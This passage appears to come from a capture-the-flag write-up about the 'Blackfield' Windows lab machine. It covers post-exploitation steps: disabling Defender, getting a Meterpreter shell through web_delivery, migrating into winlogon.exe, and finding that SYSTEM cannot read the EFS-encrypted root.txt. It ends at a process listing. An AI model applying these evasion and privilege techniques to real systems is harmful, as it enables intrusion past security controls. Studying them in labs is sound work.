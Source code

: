

I disabled defender, and got a Meterpreter shell (I used
`exploit/multi/script/web_delivery`, but there are a lot of ways) and
migrated to a process in session 1, `winlogon.exe`:



    meterpreter > getuid
    Server username: BLACKFIELD\Administrator
    meterpreter > migrate 528
    [*] Migrating from 2268 to 528...
    [*] Migration completed successfully.



Now I dropped to a shell and ran `cipher` again:



    C:\Users\Administrator\Desktop>cipher /c root.txt

     Listing C:\Users\Administrator\Desktop\
     New files added to this directory will not be encrypted.

    E root.txt
      Compatibility Level:
        Windows XP/Server 2003

      Users who can decrypt:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 

      Recovery Certificates:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 

      Key information cannot be retrieved.

    The specified file could not be decrypted.

    C:\Users\Administrator\Desktop>type root.txt
    Access is denied.



I can see who can decrypt (administrator, as expected), but now I can't
decrypt it. Of course, because I'm running as SYSTEM:



    C:\Users\Administrator\Desktop>whoami
    nt authority\system



I got a new Meterpreter session, and this time, I looked for a process
that was running as administrator and was in session 1:



    meterpreter > ps

    Process List
    ============
